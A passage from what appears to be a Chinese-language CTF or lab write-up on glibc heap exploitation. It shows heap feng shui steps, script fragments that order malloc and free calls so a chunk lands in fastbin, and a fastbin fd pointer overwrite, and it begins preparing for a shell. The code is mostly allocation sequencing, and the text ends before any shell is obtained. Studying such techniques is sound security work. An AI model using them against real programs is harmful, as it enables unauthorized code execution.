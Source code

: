 但是目前的问题在于，fastbin 的 fd 破坏了 unsortedbin 的双向链表，如果这时继续申请可能会出错

如何既保留 0x20 这样一个 size 字段，又能够不破坏已有 bins 指针呢？

在调用`free(B)`之前，再使用`free(E)`、`free(D)`

这样让目前有的几个 chunk 全部再合并到 top chunk 中，这样 bins 就会被清空，同时这个 0x20 的值还会留在内存里面

```
chunk_A = malloc(0x88, "AAAA")
chunk_B = malloc(0x88, "BBBB")

free(chunk_A)
free(chunk_B)

chunk_C = malloc(0xa8, "CCCC")
chunk_D = malloc(0x88, "DDDD")

free(chunk_C)
chunk_E = malloc(0x88, "AAAA")

free(chunk_E)
free(chunk_D)

free(chunk_B)

```

可以看到这样就将其放进了 fastbin 中

![](https://static.hack1s.fun/images/2021/12/16/image-20211216115009854.png)

接下来就是修改这一个指针了

申请两次 0x90 大小的 chunk，第二次的请求写入的地方就是 fastbin 的 fd 指针

![](https://static.hack1s.fun/images/2021/12/16/image-20211216115333311.png)

剩下的技巧就是和 house of rabbit 类似了

这里主要想要说的是堆风水这种技巧可以通过精巧的控制堆的申请次序和申请大小，使堆中排布变成需要的样子

接下来进一步尝试获取 shell，主要需要处理的地方和之前是一样的，增加 mmap 的阈值、增大程序的 system_mem 等等

```
age = 1
# ====增大mmap阈值
large = malloc(0x5fff8, 'aaaa')
free(large)

# ====增大system_mem
large = malloc(0x5fff8, 'aaaa')

# ====修改fastbin的fd指针
chunk_A = malloc(0x88, "AAAA")
chunk_B = malloc(0x88, "BBBB")

free(chunk_A)
free(chunk_B)

chunk_C = malloc(0xa8, "CCCC")
chunk_D = malloc(0x88, "DDDD")

free(chunk_C)
chunk_E = malloc(0x88, "AAAA")

free(chunk_E)
free(chunk_D)

```
